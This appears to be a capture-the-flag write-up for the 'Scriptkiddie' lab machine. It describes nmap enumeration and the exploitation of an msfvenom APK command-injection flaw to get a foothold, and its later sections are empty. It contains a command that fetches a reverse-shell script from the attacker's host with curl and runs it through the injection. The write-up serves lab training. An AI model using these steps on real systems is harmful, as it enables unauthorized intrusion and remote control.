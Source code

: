 ![](template-writeup/assets/images/banner.png)

# Scriptkiddie


### Description:

This machine simualtes a user using hacker tools in a webpage where you can abuse an old version of msfvenom, then exploit a cron to get lateral movement and finally abusing sudo rights to msfconsole. definetly a fun box.


### Difficulty:

`easy`


# Enumeration

First, we run `nmap` to know what ports are in use .

```sudo nmap -sC -sV -oA nmap/script 10.10.10.226```

![[Pasted image 20220207101557.png]]

we see port 22 (ssh) and port 5000 (python werkzeurg webserver), if we go to that webpage, we see this tools:

![[Pasted image 20220207141415.png]]

`nmap`  and `searchsploit` have sanitized input, so we can't vulnerate them. 
A quick search in google showed that `msfvenom` has a [vulnerability](https://www.exploit-db.com/exploits/49491) that allow us to inject a command using a corruped APK. 



# Foothold

To verify that the script works, we modify the command to inject in the script to be a `ping` to our ip. 

![[Pasted image 20220207142846.png]]

So, we generate the payload, upload it, and set a `tcpdump` listening to icmp requests.

![[Pasted image 20220207105342.png]]

Now, we know that the script works, so we can try to inject a reverse shell.
BUT, to be honest, any reverse shell that i tried didn't work (idk why), so i did the following steps:

* Injected a simple http server onto the machine to verify the file structure and if i can inject files:  `python3 -m http.server`
*  Created a .sh file that contains a reverse shell in pyhon.
*  Upload the file injecting a curl command into the apk:  `curl 10.10.14.15:8000/reverse.sh`
*  Verified that the file was uploaded:
![[Pasted image 20220207143323.png]]
* Set a listening port on my local machine and run the exploit injecting a `sh exploit.sh`

and voila.

![[Pasted image 20220207143852.png]]
 
# Lateral Movement

Now that we're in, we can enumerate the users, 



# Privilege Escalation

